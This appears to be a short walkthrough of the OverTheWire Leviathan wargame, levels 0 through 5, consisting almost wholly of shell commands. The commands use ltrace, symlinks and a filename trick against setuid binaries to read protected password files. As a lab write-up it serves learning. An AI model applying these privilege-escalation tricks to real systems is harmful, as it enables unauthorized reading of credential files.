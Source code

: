 ```ssh leviathan_@leviathan.labs.overthewire.org -p 2223```  


## Leviathan Level 0 → Level 1
```cat .backup/bookmarks.html | grep password```  

## Leviathan Level 1 → Level 2
```ltrace ./check```  
strcmp("pas", "__")  
```./check```  
```cat /etc/leviathan_pass/leviathan2```  

## Leviathan Level 2 → Level 3  
```mkdir /tmp/tmp_folder/```  
```cd /tmp/tmp_folder/```  
```touch test\ file```  
```ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp_folder/test```  
```~/printfile test\ file```  

## Leviathan Level 3 → Level 4  
```ltrace ./check```  
strcmp("snlprintf\n", "__")  
```cat /etc/leviathan_pass/leviathan4```  

## Leviathan Level 4 → Level 5  
```.trash/./bin```  

## Leviathan Level 5 → Level 6
```ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log```  
```./leviathan5```  

## Leviathan Level 6 → Level 7
